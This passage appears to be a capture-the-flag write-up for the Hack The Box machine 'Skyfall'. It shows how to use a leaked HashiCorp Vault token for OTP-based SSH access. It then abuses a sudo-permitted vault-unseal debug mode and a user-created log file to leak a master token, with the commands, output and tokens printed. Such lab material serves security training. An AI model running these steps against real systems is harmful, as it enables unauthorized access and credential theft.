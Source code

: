 We need the `vault` binary from hashicorp.

Export variables:

```sh
export VAULT_API_ADDR="http://prd23-vault-internal.skyfall.htb"
export VAULT_TOKEN="hvs.CAESIJlU9JMYEhOPYv4igdhm9PnZDrabYTobQ4Ymnlq1qY-LGh4KHGh2cy43OVRNMnZhakZDRlZGdGVzN09xYkxTQVE"
export VAULT_ADDR="http://prd23-vault-internal.skyfall.htb"
```

After poking around and reading the docs, we learn of a way to ssh into the machine.
You're able to ssh using a OTP, but you also need to provide a role. We can find the roles like so:

```sh
$ vault list ssh/roles
Keys
----
admin_otp_key_role
dev_otp_key_role
```

Finally we can ssh in:

```sh
$ vault ssh -mode=otp -role=dev_otp_key_role askyy@skyfall.htb
askyy@skyfall:~$
```

# Root

If we run `sudo -l` we get:

```sh
$ sudo -l
User askyy may run the following commands on skyfall:
    (ALL : ALL) NOPASSWD: /root/vault/vault-unseal ^-c /etc/vault-unseal.yaml -[vhd]+$
    (ALL : ALL) NOPASSWD: /root/vault/vault-unseal -c /etc/vault-unseal.yaml
```

If we run with `-dv` (debug, verbose)

```sh
$ sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml -dv
[+] Reading: /etc/vault-unseal.yaml
[-] Security Risk!
[+] Found Vault node: http://prd23-vault-internal.skyfall.htb
[>] Check interval: 5s
[>] Max checks: 5
[>] Checking seal status
[+] Vault sealed: false
```

it'll create `/home/askyy/debug.log` which we don't have permission to read. We can then just create our own debug.log and chown it.

```bash
$ touch debug.log
$ chown askyy:askyy debug.log
$ sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml -dv
$ cat debug.log
2024/02/07 17:48:21 Initializing logger...
2024/02/07 17:48:21 Reading: /etc/vault-unseal.yaml
2024/02/07 17:48:21 Security Risk!
2024/02/07 17:48:21 Master token found in config: hvs.I0ewVsmaKU1SwVZAKR3T0mmG
2024/02/07 17:48:21 Found Vault node: http://prd23-vault-internal.skyfall.htb
2024/02/07 17:48:21 Check interval: 5s
2024/02/07 17:48:21 Max checks: 5
2024/02/07 17:48:21 Establishing connection to Vault...
2024/02/07 17:48:21 Successfully connected to Vault: http://prd23-vault-internal.skyfall.htb
```
